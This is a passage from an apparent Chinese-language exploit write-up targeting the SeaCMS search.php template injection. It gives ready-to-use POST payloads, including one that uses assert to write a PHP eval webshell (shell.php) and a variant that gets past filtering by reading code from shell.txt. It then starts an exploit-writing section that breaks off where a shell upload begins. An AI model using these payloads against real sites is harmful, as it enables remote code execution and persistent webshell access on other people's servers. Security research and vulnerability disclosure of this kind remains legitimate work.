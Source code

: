 ```js
}
```

encryption.wker

```js
function Enc(str)
{
	//return str;
	return RunJS(ReadFile("script\ATTACKUTILS\js.js"),"e",str);
}
```

js代码就不带了。

### 漏洞分析

拿个seacms的getshell吧，网上虽然有payload，但是貌似都是到phpinfo就停止了的。

所以我就下载下来自己去复现。

```
http://www.seacms1.com/search.php

POST:searchtype=5&order=}{end if} {if:1)phpinfo();if(1}{end if}
```

phpinfo那个地方修改成自己的函数，理论上来说这样就可以了，我们就可以改成自己的马了，但是不巧的是order参数多了一个`addslashes`函数，所以会稍微麻烦一些。

主要的思路是使用断言，然后传递个没有过滤的参数进去就可以了，所以可以构造下面的payload：

```
searchtype=5&order=}{end if}{if:1)print_r($_POST[func]($_POST[cmd]));//}{end if}&func=assert&cmd=fwrite(fopen("shell.php","w"),'<?php @eval($_POST['test']); ?>')
```

但是改成一句话的时候又出现了问题，不知道是他做了啥过滤还是啥（没仔细去看），反正cmd参数里面有个$（$_POST['test']）这个就是不行，很麻烦，所以最后不得不间接执行一下了，所以我给出一个最终的payload：

1. 首先先写入payload：

   1. ```
      searchtype=5&order=}{end if}{if:1)print_r($_POST[func]($_POST[cmd]));//}{end if}&func=assert&cmd=fwrite(fopen("shell.php","w"),'<?php @eval(fread(fopen("shell.txt","r"),filesize("shell.txt"))); ?>')
      ```

   2. 这个是可以上传上去的，原理是我们不要$，而是执行的代码放在shell.txt里面

2. 写入shell.txt我们想要执行的php语句

3. 最后访问shell.php

这样子做就是动作有点大，但是勉勉强强满足了getshell的要求

### exp的编写

#### 上传shell

首先是先上传我们的shell.php：
